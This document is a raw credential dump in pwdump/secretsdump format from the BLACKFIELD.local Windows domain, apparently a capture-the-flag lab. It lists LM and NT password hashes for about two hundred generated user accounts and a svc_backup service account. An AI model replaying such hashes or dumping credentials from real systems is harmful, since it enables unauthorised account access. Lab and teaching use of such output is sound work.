BLACKFIELD.local\BLACKFIELD759079:1209:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD488531:1210:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD160610:1211:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD586934:1212:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD819822:1213:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD739765:1214:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD875008:1215:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD441759:1216:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD763893:1217:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD713470:1218:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD131771:1219:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD793029:1220:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD694429:1221:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD802251:1222:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD602567:1223:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD328983:1224:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD990638:1225:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD350809:1226:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD405242:1227:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD267457:1228:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD686428:1229:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD478828:1230:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD129387:1231:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD544934:1232:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD115148:1233:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD753537:1234:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD416532:1235:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD680939:1236:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD732035:1237:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD522135:1238:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD773423:1239:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD371669:1240:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD252379:1241:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD828826:1242:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD548394:1243:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD611993:1244:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD192642:1245:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD106360:1246:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD939243:1247:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD230515:1248:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD774376:1249:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD576233:1250:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD676303:1251:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD673073:1252:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD558867:1253:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD184482:1254:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD724669:1255:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD765350:1256:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD411132:1257:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD128775:1258:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD704154:1259:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD107197:1260:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD994577:1261:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD683323:1262:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD433476:1263:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD644281:1264:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD195953:1265:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD868068:1266:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD690642:1267:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD465267:1268:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD199889:1269:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD468839:1270:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD348835:1271:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD624385:1272:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD818863:1273:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD939200:1274:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD135990:1275:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD484290:1276:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD898237:1277:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD773118:1278:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD148067:1279:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD390179:1280:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD359278:1281:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD375924:1282:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD533060:1283:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD534196:1284:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD639103:1285:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD933887:1286:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD907614:1287:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD991588:1288:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD781404:1289:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD787995:1290:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD911926:1291:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD146200:1292:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD826622:1293:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD171624:1294:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD497216:1295:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD839613:1296:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD428532:1297:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD697473:1298:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD291678:1299:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD623122:1300:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD765982:1301:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD701303:1302:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD250576:1303:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD971417:1304:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD160820:1305:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD385928:1306:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD848660:1307:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD682842:1308:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD813266:1309:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD274577:1310:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD448641:1311:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD318077:1312:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD289513:1313:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD336573:1314:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD962495:1315:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD566117:1316:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD617630:1317:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD717683:1318:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD390192:1319:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD652779:1320:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD665997:1321:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD998321:1322:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD946509:1323:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD228442:1324:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD548464:1325:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD586592:1326:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD512331:1327:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD609423:1328:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD395725:1329:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD438923:1330:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD691480:1331:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD236467:1332:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD895235:1333:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD788523:1334:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD710285:1335:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD357023:1336:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD362337:1337:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD651599:1338:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD579344:1339:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD859776:1340:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD789969:1341:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD356727:1342:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD962999:1343:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD201655:1344:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD635996:1345:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD478410:1346:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD518316:1347:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD202900:1348:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD767498:1349:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD103974:1350:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD135403:1351:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD112766:1352:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD978938:1353:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD871753:1354:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD136203:1355:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD634593:1356:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD274367:1357:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD520852:1358:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD339143:1359:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD684814:1360:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD792484:1361:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD802875:1362:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD383108:1363:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD318250:1364:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD496547:1365:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD219914:1366:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD454313:1367:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD460131:1368:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD613771:1369:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD632329:1370:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD402639:1371:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD235930:1372:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD246388:1373:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD946435:1374:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD739227:1375:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD827906:1376:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD198927:1377:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD169876:1378:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD150357:1379:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD594619:1380:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD274109:1381:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD682949:1382:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD316850:1383:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD884808:1384:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD327610:1385:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD899238:1386:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD184493:1387:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD631162:1388:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD591846:1389:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD896715:1390:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD500073:1391:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD584113:1392:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD204805:1393:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD842593:1394:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD397679:1395:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD842438:1396:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD286615:1397:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD224839:1398:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD631599:1399:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD247450:1400:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD290582:1401:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD657263:1402:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD314351:1403:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD434395:1404:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD410243:1405:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD307633:1406:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD758945:1407:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD541148:1408:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD532412:1409:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD996878:1410:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD653097:1411:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD438814:1412:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
svc_backup:1413:aad3b435b51404eeaad3b435b51404ee:9658d1d1dcd9250115e2205d9f48400d:::
